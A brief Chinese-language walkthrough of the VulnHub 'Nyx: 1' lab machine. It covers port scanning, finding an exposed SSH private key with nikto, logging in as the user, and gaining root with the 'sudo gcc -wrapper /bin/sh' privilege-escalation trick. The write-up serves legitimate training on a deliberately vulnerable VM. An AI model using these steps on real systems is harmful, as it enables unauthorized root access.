# Nyx: 1

2024-6-12 https://www.vulnhub.com/entry/nyx-1,535/

difficulty: Easy

## IP

192.168.10.195

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fc8b87f436cd7d0fd8f31615a947f10b (RSA)
|   256 b45c089602c6a80b01fd4968ddaafb3a (ECDSA)
|_  256 cbbf2293697660a47dc019f3c715e73c (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: nyx
|_http-server-header: Apache/2.4.38 (Debian)
```

直接看 80 web 服务，首页没提示，源码也没重要的信息，使用 gobuster 进行扫描:

```
http://192.168.10.195/key.php
```

也是要输入 key 才能进入，尝试使用弱密码进行爆破，但是没发现。

使用 nikto 进行扫描，发现一个后门 ssh 密钥文件链接: http://192.168.10.195/d41d8cd98f00b204e9800998ecf8427e.php

对私钥再次进行 base64 解码，在最后结尾发现了对应的用户名 mpampis 尝试使用私钥登陆，能够成功登陆。

发现 user flag：

```
mpampis@nyx:~$ cat user.txt
2cb67a256530577868009a5944d12637
```

sudo -l 有显示：

```
(root) NOPASSWD: /usr/bin/gcc
```

可以直接利用：

```
sudo gcc -wrapper /bin/sh,-s .

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
```
